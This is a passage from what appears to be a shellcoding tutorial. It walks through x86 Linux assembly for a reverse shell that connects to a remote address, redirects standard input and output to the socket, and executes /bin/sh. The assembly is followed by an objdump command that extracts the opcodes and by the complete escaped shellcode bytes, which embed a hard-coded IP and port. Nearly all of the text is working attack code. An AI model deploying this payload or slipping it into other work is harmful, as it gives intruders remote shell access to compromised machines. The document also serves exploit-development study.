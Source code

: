 ```nasm

;connect(s, (struct sockaddr *)&sa, sizeof(sa));
xor eax, eax
mov ax, 0x16a       ;connect system call number
mov ebx, esi        ;file descriptor
mov ecx, esp        ;point to the struct present in the stack
mov edi, ebp        ;used to get the size of the structure
sub edi, esp        ;used to get the size of the structure
mov edx, edi        ;get the size of the struct by using a simple soustraction
int 0x80            ;go for it

;for (int i = 0; i < 3; i++)
;{
;    dup2(connfd, i);
;}
xor ecx, ecx
mov cl, 3
boucle:
    xor eax, eax
    mov al, 0x3f    ;dup system call number
    mov ebx, esi    ;mov the fd variable in ebx
    dec cl          ;dec to cl 1
    int 0x80        ;go for it
    inc cl          ;inc to cl 1
    loop boucle

;execve("/bin/sh", 0, 0);
xor eax, eax
push eax ;push a NULL byte
push 0x68732f2f     ;push /bin//sh
push 0x6e69622f     ;push /bin//sh
mov ebx, esp        ;mov the adress of "/bin//sh" in ebx
xor ecx, ecx        ;initialize ecx to NULL
xor edx, edx        ;initialize edx to NULL
mov al, 0xb         ;system call number for execve
int 0x80            ;go for it
```

# Second step: make the ip and port configuration easy

Before explaining the python script used for this task, we need to retrieve the hexadecimal format of our shellcode. But instead of a simple '\x' before our hexadecimal value, we will need two of them '\\\x'. 

Why ? Because our python script won't interpret our shellcode without this part.

We can easily do that by using the following objdump command:
```console
#objdump -d ./reverse_shell |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\\x89\\xe5\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x50\\x50\\x68\\x7f\\x01\\x01\\x01\\x66\\x68\\x15\\xb3\\x66\\x6a\\x02\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc6\\x31\\xc0\\x66\\xb8\\x6a\\x01\\x89\\xf3\\x89\\xe1\\x89\\xef\\x29\\xe7\\x89\\xfa\\xcd\\x80\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xf3\\xfe\\xc9\\xcd\\x80\\xfe\\xc1\\xe2\\xf2\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80"
```
